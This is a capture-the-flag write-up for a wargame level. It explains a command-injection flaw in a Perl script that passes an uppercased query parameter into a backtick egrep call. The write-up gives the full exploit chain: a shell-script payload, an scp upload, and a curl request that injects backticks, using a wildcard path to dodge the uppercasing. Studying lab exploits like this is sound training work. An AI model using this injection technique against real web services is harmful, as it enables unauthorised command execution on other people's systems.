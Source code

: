 # Write up

We now get a `level12.pl` file.
Lets analyse if first :
- `$xx =~ tr/a-z/A-Z/;` : toupper all chars in the x get value string
- `$xx =~ s/\s.*//;` : takes the previous string and delete everything which is after a whitespace char
- ```@output = `egrep "^$xx" /tmp/xd 2>&1`;``` : execute the egrep function using the $xx result to match, has ^ so it's a starting pattern
The script is listening the port 4646, so we can access it with curl.
The y parameter is here irrelevant.

We can use the grave accents to directly execute a command since it's not escaped
The program doesn't print the result, so like the level11 we have to redirect to a file.
But using `getflag>/tmp/lidl` as a payload will not work, since the regex will transform it to `GETFLAG>/TMP/LIDL`.
We have so to make a script that execute this command, and include the shebang to be able to execute it without `sh ` (spaces are escaped)
We create a PAYLOAD.sh file :
```
#!/usr/bin/env sh
getflag > /tmp/lidl
```
We upload and rename it : 
```
scp -P 4242 PAYLOAD.sh level12@192.168.56.101:/tmp/PAYLOAD
```
And we execute it, note that we can't write directly /tmp because it will becomes /TMP, so we use the wild card :
```
curl localhost:4646?x='`/*/PAYLOAD`'
```
And we get our flag :
```
cat /tmp/lidl
```


# Sources

https://perldoc.perl.org/perlop.html